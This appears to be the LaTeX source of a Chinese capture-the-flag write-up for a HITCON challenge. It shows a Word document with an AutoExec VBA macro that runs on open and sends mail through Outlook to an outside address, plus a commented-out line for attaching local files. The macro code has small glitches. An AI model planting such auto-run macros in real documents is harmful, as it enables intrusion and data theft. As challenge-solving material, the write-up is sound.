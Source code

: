 \documentclass[a4paper,UTF8]{ctexart}
\begin{document}
由题干中我们可获得如下信息：

\begin{enumerate}
	\item 目标机器上很可能运行windows系统
	\item 题目暗示使用宏进行攻击
	\item flag作为文件放置于文件系统中，需要想办法找到并打开文件
\end{enumerate}

\section{解题思路}

\subsection{构造测试用的恶意word文件}

根据题目要求，我们新建一个word文档，并将格式保存为Word 97-2003 文档(*.doc)。然后转到"视图"选项卡，选择"宏"->"查看宏"，在"宏名"中输入 AutoExec，以便让我们的宏命令在文件被打开时自动运行。为了检验运行效果，我写了一个自动发送邮件的脚本并在本机上配置了OutLook，保存后打开word文档，邮箱里收到了测试邮件。
代码如下：

\begin{verbatim}
Sub mail2()

  Application.ScreenUpdating = False

  Set Temp = CreateObject("outlook.application")
  Set Newmail = Temp.CreateItem(olMailItem)

  With Newmail
    .To = "244817312@qq.com"
    .Subject = "test HITCON"
    .body = "test OK"
    '.Attachments.Add ("附件所在本地地址")
    .Send\
  End With
 
  Application.ScreenUpdating = True

End Sub

Sub AutoExec()

  AutoExec 宏
  Call mail2
  
End Sub
\end{verbatim}

\subsection{我的失败测试}

在本地测试成功后我尝试按照题目要求将文件作为附件发送给题目提供的邮箱地址，很快我收到了一封返回邮件。

\begin{figure}[H]
\centering
  \texttt{[image: retrurnMail.eps]}
\end{figure}
\end{document}
